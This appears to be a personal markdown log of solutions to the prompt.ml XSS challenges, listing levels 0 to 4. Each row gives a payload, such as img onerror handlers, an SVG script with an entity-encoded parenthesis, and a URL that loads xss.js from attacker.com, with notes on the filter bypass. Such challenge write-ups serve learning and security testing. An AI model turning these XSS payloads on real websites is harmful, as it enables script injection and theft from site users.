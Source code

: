 # Solving and Creating XSS Challenges

## Legend

Symbol/Abbr. | Description
-------------|------------
✔ | Finished
❌ | Rejected / Not done

## Charters

### 1

Do all of [prompt](http://prompt.ml/) challenges

#### Note

Challenge | Solution | Comment | Solved
----------|----------|---------|-------
0 | `"/><img src=x onerror="prompt(1)` | | ✔
1 | `<img src=x onerror=prompt(1) /` | Interpreted as `<img src="x" onerror="prompt(1)" <="" article="">` probably because `../</article>` is turned into `<="" article=""` | ✔
2 | `<svg><script>prompt&#40;1)</script>` | The magic of this level's solution is once again caused by SVG. This time not only because it is useful to shorten the attack vector but also due to its XML-ish nature. This means that once we use entities inside an SVG's <script> element (or any other CDATA element), they will be parsed as if they were used in canonical representation. Therefore, to bypass the filter, the solution is to call prompt(1) with the open parenthesis char ( encoded, i.e. &#x28; or even shorter &#40;. One can also use &lpar; of course. | ❌
3 | `--!><img src=x onerror=prompt(1) /` `--!><script>prompt(1)</script` | Although the character sequence --!> raises a Parse error, the HTML Specifications defines the tokenization that makes it an alternative to end a comment | ✔
4 | `http://prompt.ml%2f:pswd@attacker.com/xss.js` | Th trick is to use HTTPAuth part to bypass the regex and `%2f` representing the `/` | ❌
